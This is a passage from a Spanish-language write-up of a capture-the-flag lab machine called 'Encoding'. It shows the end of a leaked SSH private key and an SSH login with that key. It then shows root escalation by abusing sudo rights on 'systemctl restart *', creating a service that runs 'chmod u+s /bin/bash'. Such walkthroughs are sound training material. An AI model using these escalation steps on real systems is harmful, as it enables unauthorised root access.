 ```sh
/aFyar4fo4+ekAAAAMc3ZjQGVuY29kaW5nAQIDBAUGBw==
-----END OPENSSH PRIVATE KEY-----
```

Ahora nos podremos conectar por SSH a la máquina, y poder leer la user flag

```sh
www-data@encoding:/tmp$ chmod 600 key1 
www-data@encoding:/tmp$ ssh -i key1 svc@localhost
The authenticity of host localhost (127.0.0.1)' can't be established.
ED25519 key fingerprint is SHA256:LJb8mGFiqKYQw3uev+b/ScrLuI4Fw7jxHJAoaLVPJLA.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Could not create directory '/var/www/.ssh' (Permission denied).
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
Welcome to Ubuntu 22.04.1 LTS (GNU/Linux 5.15.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Apr 13 09:03:30 PM UTC 2023

  System load:           0.0
  Usage of /:            65.7% of 4.33GB
  Memory usage:          14%
  Swap usage:            0%
  Processes:             230
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.198
  IPv6 address for eth0: dead:beef::250:56ff:feb9:79d6


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Jan 24 12:05:39 2023 from 10.10.14.23
svc@encoding:~$ 
```

## Escalada de Privilegios

Si nos fijamos en permisos de sudoers, nos percatamos que podemos ejecutar como el usuario `root` el comando `systemctl  restart *`, para explotar el permiso, tendremos que crear un servicio y reiniciarlo

```sh
svc@encoding:~$ cat !$
cat /etc/systemd/system/root.service
[Service]
Type=simple
ExecStart=chmod u+s /bin/bash
[Install]
WantedBy=multi-user.target
svc@encoding:~$ sudo systemctl restart root.service
svc@encoding:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
svc@encoding:~$ 
```

Y conseguimos root! Muy buena máquina!

